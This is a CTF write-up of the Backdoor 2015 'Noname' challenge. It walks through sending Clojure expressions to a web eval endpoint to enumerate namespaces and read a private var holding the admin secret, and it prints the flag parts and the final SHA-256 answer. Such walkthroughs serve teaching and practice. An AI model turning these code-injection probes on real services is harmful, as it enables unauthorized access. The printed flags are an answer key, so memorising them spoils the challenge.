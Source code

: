 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - Noname Writeup"
date: 2015-04-03 00:42:36 +0430
comments: false
categories: ctf, clojure, sandbox
---
```



**Backdoor2015 NONAME Writeup**  
**Point = 200**  
**Category = Exploit**  
**Description : **  

> Intrestingly enough, even though it was not expected, Chintu found a cool website to play with, though he can't get the flag. Can you? Visit [this](https://agile-garden-1672.herokuapp.com/). Submit the SHA-256 hash of the flag obtained. 
> 
> Welcome to Noname! You can see an intrepreter above
Get admin's flag and admin's secret. Remember admin is one of the people
Submit sha-256 of secret and flag joined
Get admin's flag and admin's secret. Remember admin is one of the people
Submit sha-256 of secret and flag joined

We could see  see an intrepreter like this : 

<!-- more -->

![enter image description here](http://up.ashiyane.org/images/7f689wqyxbbwiaxbwl.png)
so first for testing script give "1" as input it will retrun "1" again ..
lets check whats going on in browser run firebug and check : 

![enter image description here](http://up.ashiyane.org/images/2fmqsv03ko2qatsw10tq.png)

Its using JSON with eval.json at this [LINK](https://agile-garden-1672.herokuapp.com/eval.json?expr=1) .
Lets see whats happen if we execute our codes directly : 
[https://agile-garden-1672.herokuapp.com/eval.json?expr=*](https://agile-garden-1672.herokuapp.com/eval.json?expr=*)
And the response : 

>    {"expr":"*","result":"#<core$_STAR_ clojure.core$_STAR_@5ca69ca5>"}
 cool , Its Clojure and * is built-in function in "clojure.core"
 lets google clojure.core and find all functions of this library :
[http://clojure.github.io/clojure/clojure.core-api.html](http://clojure.github.io/clojure/clojure.core-api.html)
this link has all built-in functions of this library . after little searching found (loaded-libs) function .
more googling about clojure i understood that for using function out syntax shoud be like 
(function) . for loaded-libs it should be (loaded-libs) and response : 

>    {"expr":"(loaded-libs)","result":"#{bultitude.core cheshire.core cheshire.factory cheshire.generate cheshire.parse clj-time.core clj-time.format clj-yaml.core clojail.core clojail.jvm clojail.testers clojure.core.cache clojure.core.incubator clojure.core.memoize clojure.data.priority-map clojure.java.io clojure.main clojure.repl clojure.set clojure.stacktrace clojure.string clojure.template clojure.test clojure.tools.macro clojure.tools.reader clojure.tools.reader.default-data-readers clojure.tools.reader.edn clojure.tools.reader.impl.ExceptionInfo clojure.tools.reader.impl.commons clojure.tools.reader.impl.utils clojure.tools.reader.reader-types clojure.walk clout.core compojure.core compojure.handler compojure.response compojure.route flatland.useful.fn flatland.useful.seq flatland.useful.utils hiccup.compiler hiccup.core hiccup.def hiccup.element hiccup.middleware hiccup.page hiccup.util noir.cookies noir.request noir.response noir.session noir.util.crypt noir.util.middleware noir.validation noname.models.eval noname.people.admin noname.server noname.views.eval noname.views.home ring.adapter.jetty ring.middleware.content-type ring.middleware.cookies ring.middleware.file-info ring.middleware.flash ring.middleware.format ring.middleware.format-params ring.middleware.format-response ring.middleware.head ring.middleware.keyword-params ring.middleware.multipart-params ring.middleware.multipart-params.temp-file ring.middleware.nested-params ring.middleware.params ring.middleware.session ring.middleware.session.memory ring.middleware.session.store ring.util.codec ring.util.io ring.util.mime-type ring.util.response ring.util.servlet ring.util.time serializable.fn}"}

Found good things : 

    noname.models.eval noname.people.admin noname.server noname.views.eval noname.views.home


specialy "noname.people.admin" because of hint of question: 

> Remember admin is one of the people

Its loaded , so we can use it in our codes but we dont know functions and classes
little googling found "clojure.repl/dir" it can list classes , functions ... : 
[https://agile-garden-1672.herokuapp.com/eval.json?expr=(clojure.repl/dir noname.people.admin)](https://agile-garden-1672.herokuapp.com/eval.json?expr=%28clojure.repl/dir%20noname.people.admin%29)

and response :

>    {"expr":"(clojure.repl/dir noname.people.admin)","result":"flag\nnil"}

oh . "flag" .... lets check if its public : 
[https://agile-garden-1672.herokuapp.com/eval.json?expr=%28print%20noname.people.admin/flag%29](https://agile-garden-1672.herokuapp.com/eval.json?expr=%28print%20noname.people.admin/flag%29)

 yes , its public , we can use it in interpreter : 
![enter image description here](http://up.ashiyane.org/images/b95z537owt2a0cmrm1ca.png)
 
 got second part of flag : 
 

    Give me some code:
> (noname.people.admin/flag)
> Ma flag is : _b7w_1_l1k3_60l4n6_700nil
>  

We need first part of flag called admin's secret , let test  (noname.people.admin/secret)
and response id error : 

>    {"error":true,"message":"java.lang.IllegalStateException: var: noname.people.admin/secret is not public"}

it private , and because of namespace we cant use it also we cant switch our namespace becuase "ns" is closed by Java.Security...

lets google and find a way for bypass :)
found this http://christophermaier.name/blog/2011/04/30/not-so-private-clojure-functions

awesome :D

do what it said :  
![enter image description here](http://up.ashiyane.org/images/lqo0cppgkh89dci505u1.png)

and its the first part of the flag :

> (#'noname.people.admin/secret)
> "Ma secret is: 1_4m_50_cl0jur3d_y0u_c4n7_3v3n_7h1nk"
> 
> Flag Format = sha256(secret+flag)
> sha256(1_4m_50_cl0jur3d_y0u_c4n7_3v3n_7h1nk_b7w_1_l1k3_60l4n6_700)
> **147fadb708195779c6414a0ce9171bc4b966e03a9818383eabafa0e71a240d5a**

200 points ;)

WriteUp By PARSA
